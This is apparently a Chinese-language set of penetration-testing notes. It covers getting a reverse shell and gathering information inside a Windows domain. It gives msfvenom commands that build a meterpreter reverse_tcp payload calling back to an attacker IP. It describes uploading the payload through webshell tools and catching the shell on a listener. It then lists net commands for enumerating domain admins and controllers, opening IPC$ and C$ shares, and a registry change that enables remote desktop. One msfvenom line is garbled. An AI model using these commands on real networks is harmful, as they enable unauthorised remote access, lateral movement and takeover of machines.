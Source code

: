 ### 反弹 Shell  Reverse Shell

#### 生成payload

```shell
使用msfdb生成payload
```

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-10-19-25-45-image.png)

```shell
使用msfvenom生成payload
msfvenom -/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-10-19-28-53-image.png)

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LPORT=4444 -f exe -o payload.exe
msfvenom -/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```

#### 上传payload

可以用cs，哥斯拉，蚁剑等工具上传，上传后用webshell打开使用

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-11-09-45-51-image.png)

#### 获得shell

通过设置监听端口，然后通过木马连接到本地

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-11-09-47-54-image.png)

### 域内信息收集

常用命令

```powershell
ipconfig /all   查看本机ip，所在域
 route print     打印路由信息
 net view        查看局域网内其他主机名
 arp -a          查看arp缓存
 net start       查看开启了哪些服务
 net share       查看开启了哪些共享
 net share ipc$  开启ipc共享
 net share c$    开启c盘共享
 net use \\192.168.xx.xx\ipc$ "" /user:""   与192.168.xx.xx建立空连接
 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"  建立c盘共享
 dir \\192.168.xx.xx\c$\user    查看192.168.xx.xx c盘user目录下的文件
 ​
 net config Workstation   查看计算机名、全名、用户名、系统版本、工作站、域、登录域
 net user                 查看本机用户列表
 net user /domain         查看域用户
 net localgroup administrators   查看本地管理员组（通常会有域用户）
 net view /domain         查看有几个域
 net user 用户名 /domain   获取指定域用户的信息
 net group /domain        查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
 net group 组名 /domain    查看域中某工作组
 net group "domain admins" /domain  查看域管理员的名字
 net group "domain computers" /domain  查看域中的其他主机名
 net group "doamin controllers" /domain  查看域控制器（可能有多台）

 netstat -ano | find "3389"   查看3389端口是否开启，若开启可以尝试远程桌面登录（Windows）
 REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f  用于开启远程桌面登录
```
